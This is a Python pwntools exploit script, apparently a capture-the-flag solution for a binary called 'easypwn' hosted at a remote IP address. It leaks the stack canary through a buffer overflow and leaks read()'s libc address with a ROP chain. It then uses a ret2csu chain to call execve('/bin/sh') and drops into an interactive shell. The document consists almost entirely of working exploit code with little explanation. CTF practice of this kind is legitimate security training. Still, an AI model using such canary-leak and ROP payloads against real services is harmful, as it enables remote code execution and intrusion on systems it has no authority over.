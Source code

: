 # scroll
滚动条

#/usr/env/bin python

from pwn import *

context.binary = './easypwn'
context.terminal = ['tmux','sp','-h']
#context.log_level = 'debug'
elf = ELF('./easypwn')

#io = process('./easypwn')
io = remote('106.75.66.195', 20000)

#leak Canary
io.recvuntil('Who are you?\n')
io.sendline('A'*(0x50-0x8))
io.recvuntil('A'*(0x50-0x8))

canary = u64(io.recv(8))-0xa
log.info('canary:'+hex(canary))

#leak read_addr
io.recvuntil('tell me your real name?\n')
payload = 'A'*(0x50-0x8)
payload += p64(canary)
payload += 'A'*0x8
payload += p64(0x4007f3)
payload += p64(elf.got['read'])
payload += p64(elf.plt['puts'])
payload += p64(0x4006C6)
io.send(payload)
io.recvuntil('See you again!\n')

#cacl syscall_addr
read_addr = u64(io.recvuntil('\n',drop=True).ljust(0x8,'\x00'))
log.info('read_addr:'+hex(read_addr))
syscall = read_addr+0xe
log.info('syscall:'+hex(syscall))

sleep(0.5)

io.recvuntil('Who are you?\n')
io.sendline('A'*(0x50-0x8))

#gdb.attach(io,'b *0x4007d6')
#execve("/bin/sh",NULL,NULL)
io.recvuntil('tell me your real name?\n')
payload = 'A'*(0x50-0x8)
payload += p64(canary)
payload += 'A'*0x8
payload += p64(0x4007EA)
payload += p64(0)+p64(1)+p64(elf.got['read'])+p64(0x3B)+p64(0x601080)+p64(0)
payload += p64(0x4007D0)
payload += p64(0)
payload += p64(0)+p64(1)+p64(0x601088)+p64(0)+p64(0)+p64(0x601080)
payload += p64(0x4007D0)
io.send(payload)
sleep(0.5)

raw_input('Go?')
content = '/bin/sh\x00'+p64(syscall)
content = content.ljust(0x3B,'A')
io.send(content)

io.interactive()
